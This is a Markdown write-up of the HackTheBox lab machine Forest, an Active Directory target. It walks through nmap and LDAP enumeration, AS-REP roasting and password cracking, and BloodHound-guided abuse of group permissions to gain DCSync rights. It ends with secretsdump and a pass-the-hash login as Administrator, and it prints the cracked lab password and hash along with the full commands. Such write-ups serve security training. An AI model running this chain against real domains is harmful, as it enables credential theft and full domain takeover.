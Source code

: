```yaml
---
title: "[HacktTheBox] walkthrough: Forest (Active Directory)"
date: 2025-10-03
categories: [hackthebox]
tags: [htb, Windows, AD]
---
```


![7](/assets/images/hackthebox/forest/스크린샷%202025-10-06%20오후%2011.13.02.png)

## Info

- Platform: Hackthebox
- Machine Name: Forest
- Target IP/Host: 10.10.10.161
- OS / Version: Windows (AD)
- Difficulty / Category: Easy

## Overview

It is a basic Active Directory machine that can be attacked using AS-REP Roasting, BloodHound, DACL abuse, DCSync.

## Recon & Enumeration

First I scanned with `nmap`. 

```
sudo nmap 10.10.10.161 -n -A --min-rate 3000
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-03 00:17 KST                                                                             00:18:38 [16/121]
Nmap scan report for 10.10.10.161
Host is up (0.21s latency).          
                                       
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-10-02 15:24:54Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?  
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped                                                                                                                                    
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf       .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Microsoft Windows 2016|2019
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_server_2019
OS details: Microsoft Windows Server 2016 or Server 2019
Network Distance: 2 hops
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2025-10-02T15:25:14
|_  start_date: 2025-10-02T15:19:30
|_clock-skew: mean: 2h26m51s, deviation: 4h02m31s, median: 6m49s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-10-02T08:25:13-07:00

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   247.55 ms 10.10.14.1
2   247.85 ms 10.10.10.161
```

You can obtain the domain name: htb.local and the FQDN: FOREST.htb.local.

Then add them to the `/etc/hosts` file to match the IP address.

```
echo '10.10.10.161 htb.local FOREST.htb.local FOREST' | sudo tee -a /etc/hosts
```

I tried SMB null-session login with `nxc`, but it failed.
```
nxc smb 10.10.10.161 -u "" -p ""
```

I then tried LDAP anonymous bind, and it succeeded. So I retrieved users using the --users flag.
```
nxc ldap 10.10.10.161 -u "" -p "" --users
```

![1](/assets/images/hackthebox/forest/스크린샷%202025-10-03%20오전%2012.38.43.png)

user list:
```
...
sebastien
lucinda
svc-alfresco
andy
mark
santi
...
```

## Initial Access

I tried AS-REP Roasting with the user list by `impacket-GetNPUsers`.
```
┌──(kali㉿kali)-[~/htb/Forest/recon]
└─$ impacket-GetNPUsers htb.local/ -request -usersfile userlist -dc-ip 10.10.10.161
```

![2](/assets/images/hackthebox/forest/스크린샷%202025-10-03%20오전%2012.42.32.png)

I obtained `svc-alfresco`'s AS-REP response and cracked it with John the Ripper.
```
┌──(kali㉿kali)-[~/htb/Forest/recon]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt svc-alresco_hash   
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 ASIMD 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)     
1g 0:00:00:01 DONE (2025-10-03 00:41) 0.5102g/s 2085Kp/s 2085Kc/s 2085KC/s s521379846..s2698813
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

You can log in as svc-alfresco with evil-winrm and find `user.txt` at C:\Users\svc-alfresco\Desktop.
```
┌──(kali㉿kali)-[~/htb/Forest]
└─$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

## Privilege Escalation

Using BloodHound, you can enumerate AD GPO information and find an attack path to the `Administrator` account.

BloodHound can be with `nxc` or `bloodhound-python`, I used `nxc`.

```
# using bloodHound-python
bloodhound-python -u svc-alfresco -p s3rvice -d htb.local -v --zip -c All -dc htb.local -ns 10.10.10.161

# using nxc
nxc ldap 10.10.10.161 -u svc-alfresco -p s3rvice --bloodhound --collection All -d htb.local --dns-server 10.10.10.161
```

![4](/assets/images/hackthebox/forest/스크린샷%202025-10-04%20오후%203.05.11.png)

If you upload the `.zip` file to BloodHound, you can find the attack path to the `Administrator` account like this.(If such a path exists.)

![3](/assets/images/hackthebox/forest/스크린샷%202025-10-04%20오후%202.59.57.png)

`svc-alfresco` is member of the `Account Operators` group and Account Operators have the `GenericAll` permission on the `Exchange Windows Permissions` group that have `WriteDacl` permission on the domain.

First I abused the `GenericAll` permission to add `svc-alfresco` to the `Exchange Windows Permissions` group.

```
net rpc group addmem "EXCHANGE WINDOWS PERMISSIONS" "svc-alfresco" -U htb.local/svc-alfresco%s3rvice -S 10.10.10.161
```

![5](/assets/images/hackthebox/forest/스크린샷%202025-10-04%20오후%203.18.11.png)
The command succeeded.

Second, I abused the `WriteDacl` permission to grant `DCSync` rights to the `Exchange Windows Permissions` group on the domain.

```
┌──(kali㉿kali)-[~/htb/Forest]                                        
└─$ impacket-dacledit -action 'write' -rights 'DCSync' -principal 'svc-alfresco' -target-dn 'DC=htb,DC=local' htb.local/'svc-alfresco':'s3rvice'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies             

[*] DACL backed up to dacledit-20251004-151605.bak         
[*] DACL modified successfully! 
```

Then, after the `Exchange Windows Permissions` group had `DCSync` rights, I performed DCSync using `impacket-secretsdump`.

```
┌──(kali㉿kali)-[~/htb/Forest]
└─$ impacket-secretsdump htb.local/svc-alfresco:s3rvice@10.10.10.161
```

![6](/assets/images/hackthebox/forest/스크린샷%202025-10-04%20오후%203.21.04.png)

I obtained the Administrator's hash, then logged in with pass-the-hash using evil-winrm.
```
┌──(kali㉿kali)-[~/htb/Forest]
└─$ evil-winrm -i 10.10.10.161 -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

I found `root.txt` at C:\Users\Administrator\Desktop.